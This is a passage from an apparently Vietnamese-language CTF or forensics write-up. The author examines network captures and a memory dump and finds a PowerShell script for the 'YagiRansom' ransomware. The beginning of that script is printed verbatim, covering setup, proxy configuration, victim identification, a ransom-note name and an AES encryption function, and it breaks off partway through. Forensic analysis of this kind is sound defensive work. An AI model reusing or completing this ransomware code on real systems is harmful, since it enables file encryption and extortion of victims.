 ![image](https://hackmd.io/_uploads/ryU4lYZyye.png)

Lọc để thử follow theo `tcp` và `http` thì cũng chỉ thấy 1 stream để xem các tiến trình.

![image](https://hackmd.io/_uploads/B18ZbtWJkg.png)

Mở lên xem một lúc thì tôi nhận thấy tất cả các file theo protocol `HTTP` và nội dung của chúng đều ở dangj khó nhìn, chắc là bị mã hóa :v. Và công việc trước mắt, tạm thời của chúng ta bây h là tìm chỗ mã hóa để thử giải, có thể là trong file `update.DMP` kia.
Do mở bằng tool khá lâu và bị lỗi nên tôi đã `strings` để xem.
Sau 1 thời gian dò thì tôi thấy chỗ rất sus(suspicious).
![image](https://hackmd.io/_uploads/SJZvcYZyke.png)

Đây là nguyên 1 đoạn code `PowerShell` để thực thi `Ransomware` có tên là `YagiRansom`

```powershell
# Design
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }
# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null
# Errors
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
```